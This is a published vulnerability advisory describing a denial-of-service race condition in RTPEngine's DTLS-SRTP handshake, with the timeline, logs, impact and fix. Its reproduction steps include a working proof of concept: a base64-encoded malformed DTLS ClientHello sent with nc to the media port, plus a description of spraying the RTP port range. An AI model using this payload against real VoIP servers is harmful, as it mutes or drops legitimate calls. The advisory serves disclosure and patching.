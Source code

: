 # RTPEngine susceptible to Denial of Service via DTLS Hello packets during call initiation

- Fixed versions: mr12.1.1.2, mr12.0.1.3, mr11.5.1.16, mr10.5.6.3, mr10.5.6.2
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2023-03-rtpengine-dtls-hello-race
- Vendor Patch: https://github.com/sipwise/rtpengine/commit/e969a79428ac4a15cdf1c0a1c6f266dbdc7e60b6
- Tested vulnerable versions: mr11.5.1.6
- Timeline:
	- Report date: 2023-10-02
	- Triaged: 2023-10-02
	- Fix provided for testing: 2023-11-16
	- Enable Security verified fix: 2023-12-14
	- Vendor release with fix: 2023-12-14
	- Enable Security advisory: 2023-12-15

## TL;DR

When handling DTLS-SRTP for media setup, RTPEngine is susceptible to Denial of Service due to a race condition in the hello handshake phase of the DTLS protocol. This attack can be done continuously, thus denying new DTLS encrypted calls during the attack.

## Description

Our research has shown that key establishment for Secure Real-time Transport Protocol (SRTP) using Datagram Transport Layer Security Extension (DTLS)[^1] is susceptible to a Denial of Service attack due to a race condition. If an attacker manages to send a ClientHello DTLS message with an invalid CipherSuite (such as `TLS_NULL_WITH_NULL_NULL`) to the port on the RTPEngine server that is expecting packets from the caller, the media session is torn down.

This behavior was tested against RTPEngine version mr11.5.1.6, which was found to be vulnerable to this issue.

The following sequence diagram shows the normal flow (i.e. no attack) involving SIP, STUN and DTLS messages between a UAC (the Caller), Kamailio and an RTPEngine server capable of handling WebRTC calls.

![Diagram showing a call setup against RTPEngine that uses SIP, STUN and DTLS](resources/valid.png)

In a controlled experiment, it was observed that when the Attacker sent a DTLS ClientHello to RTPEngine's media port from a different IP and port, RTPEngine gave an internal error and did not process the call any longer.

![Diagram showing a call setup against RTPEngine that fails due to an attacker controlled DTLS ClientHello](resources/dos.png)

During a real attack, the attacker would spray a vulnerable RTPEngine server with DTLS ClientHello messages. The attacker would typically target the range of UDP ports allocated for RTP. When the ClientHello message from the Attacker wins the race against an expected ClientHello from the Caller, RTPEngine terminates the media session resulting in Denial of Service.

The following log shows that RTPEngine resets the DTLS connection context:

```
DEBUG: [... port 39910]: [ice] Received ICE/STUN response code 0 for candidate pair TUk2hmDhRdEwbjA1:6249488300:1 from 192.168.1.202:56083 to 192.168.1.202
DEBUG: [... port 39910]: [ice] Setting ICE candidate pair TUk2hmDhRdEwbjA1:6249488300:1 as succeeded
DEBUG: [... port 39910]: [ice] Best succeeded ICE pair with all components is TUk2hmDhRdEwbjA1:6249488300:1
DEBUG: [... port 39910]: [ice] ICE not completed yet, but can use pair TUk2hmDhRdEwbjA1:6249488300:1
INFO: [... port 39910]: [ice] ICE negotiated: peer for component 1 is 192.168.1.202:56083
INFO: [... port 39910]: [ice] ICE negotiated: local interface 192.168.1.202
DEBUG: [... port 39910]: [srtp] Processing incoming DTLS packet
ERR: [... port 39910]: [crypto] DTLS error: 1 (no shared cipher)
ERR: [... port 39910]: [srtp] DTLS error on local port 39910
DEBUG: [... port 39910]: [crypto] Resetting DTLS connection context
```

## Impact

Abuse of this vulnerability may lead to a massive Denial of Service on vulnerable RTPEngine servers for calls that rely on DTLS-SRTP. In practice, this results in all new calls appearing to be on mute.

## How to reproduce the issue

1. Run an RTPEngine instance with the following command:

    ```bash
	rtpengine -f \
		--interface=<interface> \
		--listen-ng="<listen-ng>" \
		--pidfile=<pidfile> \
		--port-min=35000 \
		--port-max=40000 \
		--log-stderr \
		--log-level=10
	```
1. Run a Kamailio instance with the following configuration:

	```bash
	debug=2
	log_stderror=yes

	memdbg=5
	memlog=5

	log_facility=LOG_LOCAL0

	loadmodule "pv.so"
	loadmodule "xlog.so"
	loadmodule "rtpengine.so"
	loadmodule "sl.so"
	loadmodule "tm.so"
	loadmodule "textops.so"
	loadmodule "siputils.so"

	modparam("rtpengine", "rtpengine_sock", "udp:<listen-ng>")

	alias="<alias>"

	request_route {
		xlog("L_INFO","$su\n");

		if ($rm == "INVITE") {
			$avp(caller_source)="$si:$sp";
		}

		if ($avp(caller_source) == "$si:$sp") {
			if ($rm == "INVITE") {
				rewritehostport("192.168.1.202:9999");
				rtpengine_manage("replace-origin replace-session-connection pad-crypto RTP/SAVPF ICE=force");

				t_relay();
			}
			break;
		} else {
			xlog("L_INFO","got a request from callee [$rm]\n");
			break;
		}
	}

	onreply_route{
		if ($avp(caller_source) != "$si:$sp") {
			if (!is_request()) {
				xlog("L_INFO","got a reply from callee [$rs $rr]\n");
				if has_body("application/sdp") {
					rtpengine_manage("replace-origin replace-session-connection pad-crypto RTP/SAVPF ICE=force");
				}
			}
			exit;
		}
	}
```
1. Send an INVITE message to Kamailio with WebRTC SDP:

    ```default
	INVITE sip:1000@192.168.1.202 SIP/2.0
	Via: SIP/2.0/WSS 192.168.1.202:36742;rport=36742;branch=z9hG4bK-jQcnXJadB2VGfGmQ
	Max-Forwards: 70
	From: <sip:1000@192.168.1.202>;tag=L9kc5NfpYG1u67cT
	To: <sip:1000@192.168.1.202>
	Contact: <sip:1000@192.168.1.202>
	Call-ID: DzGnBLt0z9SK3MC0
	CSeq: 5 INVITE
	Content-Type: application/sdp
	Content-Length: 385

	v=0
	o=- 1695296331 1695296331 IN IP4 192.168.1.202
	s=-
	t=0 0
	c=IN IP4 192.168.1.202
	m=audio 45825 UDP/TLS/RTP/SAVPF 0 8 101
	a=setup:active
	a=fingerprint:sha-256 49:05:98:B2:15:43:1C:9C:4F:29:07:60:F8:63:77:16:80:F9:44:C0:97:8E:E5:48:D6:71:B4:03:10:85:D6:E3
	a=rtpmap:0 PCMU/8000/1
	a=rtpmap:8 PCMA/8000/1
	a=rtpmap:101 telephone-event/8000
	a=rtcp-mux
	a=rtcprsize
	a=sendrecv
	```
1. Note RTPEngine's media port and IP values, which will be used as the `<rtpengine-ip>` and `<media-port>` parameters by the Attacker
1. Send a DTLS ClientHello message from a (attacker-controlled) host, which is different from the Caller but has network access to the RTPEngine server

    ```bash
	CLIENT_HELLO="Fv7/AAAAAAAAAAAAfAEAAHAAAAAAAAAAcP79AAA" 
	CLIENT_HELLO="${CLIENT_HELLO}AAG4HCVaUNVbYVmxuqdn2WyCgtTijhZ+WheP/+H"
	CLIENT_HELLO="${CLIENT_HELLO}4AAAACAAABAABEABcAAP8BAAEAAAoACAAGAB0AF"
	CLIENT_HELLO="${CLIENT_HELLO}wAYAAsAAgEAACMAAAANABQAEgQDCAQEAQUDCAUF"
	CLIENT_HELLO="${CLIENT_HELLO}AQgGBgECAQAOAAkABgABAAgABwA="
	echo -n "${CLIENT_HELLO}" | base64 --decode | nc -u <rtpengine-ip> <media-port>
	```
1. Observe that RTPEngine reports that the DTLS context has been reset

## Solution and recommendations

To address this vulnerability, upgrade RTPEngine to the latest version which includes the security fix. The solution implemented is to drop all packets from addresses that have not been validated by an ICE check.


## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

[^1]: Datagram Transport Layer Security (DTLS) Extension to Establish Keys for the Secure Real-time Transport Protocol (SRTP) https://datatracker.ietf.org/doc/html/rfc5764